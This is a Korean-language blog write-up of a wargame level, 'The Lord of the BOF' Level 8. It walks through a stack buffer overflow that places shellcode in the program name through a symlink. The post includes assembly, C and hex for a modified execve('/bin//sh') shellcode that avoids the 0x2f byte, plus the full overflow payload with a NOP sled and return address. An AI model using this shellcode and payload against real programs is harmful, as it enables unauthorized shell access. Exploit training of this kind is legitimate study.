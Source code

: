 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 8"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level8/1.jpg" | relative_url }}' alt='relative'>  

## 1) orge/timewalker 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level8/2.png" | relative_url }}' alt='relative'>  

이 문제에서는 argc의 개수를 확인합니다. argc가 2가 아니면 프로그램이 강제 종료합니다.  
게다가 argv hunter도 있습니다. argv[1]의 내용을 0으로 덮어 써버립니다.  

그렇다면 argv[0]에 쉘코드를 입력하면 되겠네요.  

## 2) 심볼릭 링크 파일명에 shellcode 넣기  

``` bash
ln -s troll `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*10'`
```

<img data-action="zoom" src='{{ "assets/lob/level8/3.png" | relative_url }}' alt='relative'>  

No such file or directory ?!?!?!?!  
심볼릭 링크 파일명에 쉘코드를 입력하면 될 줄 알았는 데,,,  

이 문제는 프로그램 이름에 \x2f('/')가 포함되어 있기 때문에 발생하였습니다.  
이 문제를 해결하는 방법은 다형성 쉘코드를 사용하는 것입니다.  

## 3) 다형성 쉘코드 (Polymorphin shellcode)?!  

다형성 쉘코드는 다양한 형태의 쉘코드입니다.  
이 문제에서 다형성 쉘코드를 사용하는 이유는 쉘코드에 \x2f를 포함시키지 않기 위해서 입니다.  

쉘코드에 \x2f를 없애기 위해 /bin//sh을 나타내는 코드를 수정하였습니다.  
sh//를 나타내는 0x68732f2f에는 0x27가 포함되어 있으니 
0x34399797과 0x34399798을 더하는 명령어를 추가하여 0x68732f2f(//sh)으로 변경하였습니다.  
/bin 문자열도 0x3734b117 + 0x3734b118 = 0x6e69622f(/bin)으로 변경하였습니다.  

0x2f를 없애는 방법은 다양하지만 결과적으로 system call을 위해 스택에 올라가는 구조는 동일합니다.  

<span style='font-size:1.5em; background-color:#AC58FA'>AFTER</span>

``` c
xor %eax, %eax
push %eax

// sh//
push $0x68732f2f
// nib/
push $0x6e69622f

mov %esp, %ebx
push %eax
push %ebx
mov %esp, %ecx
mov %eax, %edx
mov $0xb, %al
int $0x80
```

<span style='font-size:1.5em; background-color:#AC58FA'>BEFORE</span>

``` c
xor %eax, %eax
push %eax

// sh//
mov $0x34399797, %eax
add 0x34399798, %eax
push %eax
// nib/
mov $0x3734b117, %eax
add $0x3734b118, %eax
push %eax

xor %eax, %eax

mov %esp, %ebx
push %eax
push %ebx
mov %esp, %ecx
mov %eax, %edx
mov $0xb, %al
int $0x80
```

/bin//sh 문자열을 그대로 사용한 쉘코드보다는 길이가 더 길어졌지만 쉘코드에서 \x27를 없애는 데 성공하였습니다.  
쉘코드를 만드는 방법은 <a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html">Hacker School FTZ - Shellcode</a>를 참고해주세요.  

``` c
// mksh.c
void main(){
        __asm__ __volatile__(
                "xor %eax, %eax         \n\t"
                "push %eax              \n\t"

                // sh//
                "mov $0x34399797, %eax  \n\t"
                "add $0x34399798, %eax   \n\t"
                "push %eax              \n\t"

                // nib/
                "mov $0x3734b117, %eax  \n\t"
                "add $0x3734b118, %eax  \n\t"
                "push %eax              \n\t"

                "xor %eax, %eax         \n\t"

                "mov %esp, %ebx         \n\t"
                "push %eax              \n\t"
                "push %ebx              \n\t"
                "mov %esp, %ecx         \n\t"
                "mov %eax, %edx         \n\t"
                "mov $0xb, %al          \n\t"
                "int $0x80              \n\t"
        );
}
```

<img data-action="zoom" src='{{ "assets/lob/level8/4.png" | relative_url }}' alt='relative'>  

``` bash
gcc -static -o polsh mksh.c
```

``` bash
objdump -M intel -d polsh | grep \<main\> -A 20
```

<img data-action="zoom" src='{{ "assets/lob/level8/4.png" | relative_url }}' alt='relative'>  

``` bash
//39 byte
\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

<img data-action="zoom" src='{{ "assets/lob/level8/6.png" | relative_url }}' alt='relative'>  

``` c
// runsh.c
char sh[] = "\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
void (*func)();
int main(void)
{
        func = (void*)sh;
        func();
        return 0;
}

```

0x2f를 없앤 쉘코드가 정상적으로 동작하는 것을 확인하였습니다.  

<img data-action="zoom" src='{{ "assets/lob/level8/7.png" | relative_url }}' alt='relative'>  

``` bash
ln -s troll `python -c 'print "\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*10'`
```

0x2f를 없앤 쉘코드를 포함한 심볼릭 링크 파일을 만들었더니 에러 없이 성공적으로 troll의 심볼릭 링크 파일을 만들 수 있습니다.  

## 4) RET에 넣을 주소 임의로 지정하기   

troll.c 소스코드 파일로 test 프로그램을 만들어 gdb로 실행하였습니다.  

<img data-action="zoom" src='{{ "assets/lob/level8/8.png" | relative_url }}' alt='relative'>  

argv[0]이 저장된 위치에서 쉘코드가 위치할 주소를 임의로 대략 파악합니다.  

저는 0xbffffc4c 주소를 선택했습니다.  

## 5) 공격 페이로드 입력하여 BOF 일으키기  

``` bash
./`python -c 'print "\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*10'` `python -c 'print "\x90"*44+"\x4c\xfc\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/lob/level8/9.png" | relative_url }}' alt='relative'>  